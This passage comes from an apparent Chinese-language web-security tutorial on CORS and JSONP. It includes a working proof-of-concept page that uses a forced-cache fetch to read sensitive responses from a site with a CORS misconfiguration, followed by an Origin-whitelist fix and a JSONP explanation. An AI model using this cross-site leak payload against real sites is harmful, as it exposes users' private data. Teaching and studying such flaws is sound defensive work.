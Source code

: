 ```html
  xhttp.send();
}
</script>
```

PoC3: poc3_cors_FetchAPI.html

* "跨站信息泄露"(cross-site leak). 当满足以下2个条件时, 通过"读取硬盘缓存的Response"可获取到之前的Response(更可能有敏感数据)! 参考#761726
  * 条件1. 目标站存在CORS漏洞.
  * 条件2. 目标站允许缓存.  即Response Header的`Cache-Control`header不存在, 或者这个header存在并说明了"允许缓存".
```html
<html>
<script>
var url1 = "https://B.com/x.json"; // B.com has the CORS misconfiguration.

obj1 = {    
    method: 'GET',    
    cache: 'force-cache' //强制读取硬盘中的缓存 (from disk cache). 实测不会真正发出request.
    }

fetch(url1,obj1)
  .then(function(response) { //Response
    // return response.text(); // Promise
    return response.json(); // Promise
  })
  .then(function(Json1) {
    console.log(Json1); //output
  });

</script>
</html>
```

* 使用CORS实现跨域 **安全的方案(修复方案)**
  * 业务"后端"实现`Origin`白名单,把信任的域加入`Origin`白名单. 如果HTTP request中的`Origin`不在白名单内,则对应的HTTP Response不带这2个Header.
    * 对Origin如果不信任，则HTTP Response不带这2个Header
    * `Access-Control-Allow-Origin: white.com`
    * `Access-Control-Allow-Credentials: true`

### 例2 - JSON with Padding

* 根本原因 - JSONP可以"跨域"的根本原因是`<script>`标签能够("绕过"同源策略)请求其他域名的资源 如`<script src="http://www.3.com/jquery.js"></script>`
* 理解 - json是目的 JSONP是手段 Padding指的是callback(回调函数)
* 大致过程 - 域A.com下的JavaScript脚本 从域A.com发送HTTP请求到域B.com 得到B.com的响应 响应内容为json格式的数据(这样的数据符合JavaScript语法)  此时域A.com下的JavaScript脚本 得到的具体数据 并把它作为实参 传递给域A.com下的回调函数 实现使用数据

首先在域A.com的前端 有JavaScript脚本如下:

```javascript
// 在body中添加一个 <script>标签
var tag_script = document.createElement('script');
tag_script.src = 'http://database.B.com/info?callback_name=foo'; // A.com告诉外部的服务器B 回调函数的函数名是foo .即要求B.com的响应 能在A.com下的JavaScript脚本里执行 如foo({"token": "XXXX"}); 
// 为什么不能直接写成json数据 如`{"token": "XXXX"}`呢? 因为在JavaScript上下文里 这样写无法调用任何函数. 即无法实现调用回调函数foo
document.body.appendChild(tag_script);

// foo函数 是域A.com的一个函数.
// 当B.com的后端 响应"数据"后, A.com的JavaScript会调用名为foo的回调函数(callback)
function foo(data) {
console.log('[A.com] Your token is: ' + data.token);
};
```
